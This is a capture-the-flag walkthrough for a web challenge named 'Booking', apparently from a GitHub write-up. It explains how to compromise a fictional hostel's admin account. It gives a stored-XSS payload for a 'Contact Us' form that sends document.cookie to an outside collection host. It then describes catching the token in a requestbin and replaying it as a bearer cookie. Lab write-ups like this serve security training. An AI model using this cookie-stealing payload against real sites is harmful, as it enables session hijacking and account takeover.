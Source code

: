 #### NOTE: The challenge is a bit buggy and will produce the final flag some times, and in other times you will have to repeat the cookie manipulation part multiple times
# Booking
## Challenge Description:
On your last vacation day in the "Wild Moose Hostel", the hostel's manager heard you discussing your full-time job as a penetration tester with other guests.
She offered you to stay an additional night, free of charge, in exchange for assistance regarding a suspicion they have based on a security issue.
According to her, they noticed several logins to their admin accounts at late hours, which none of the actual admins could confirm as valid.

Your goals
☛ Find the vulnerable functionality on the web application.
☛ Find a way to compromise an admin account.
☛ Gain access to the hostel's admin panel.


## Process:
Create an account. The credentials don't matter all that much, just remember them.
After creating an account, sign in and go to 'My Moose'.
Scroll down to the 'Contact Us' section.
Go to this site in a different tab: https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md

Copy the following snippet of code and paste it into the text box in the original site.
<imgsrc=xonerror=this.src='http://192.168.0.18:8888/?'+document.cookie;>

https://pipedream.com/requestbin
Create a public bin and paste the link you got into the src of the code above
Send the message and check for the token in the requested bin
Go to https://jwt.io/ and translate the Bearer
Use the 'cookie editor' extension or access the cookies though the 'Application' tab in the 'inspect' of the site.
Paste the bearer value and save
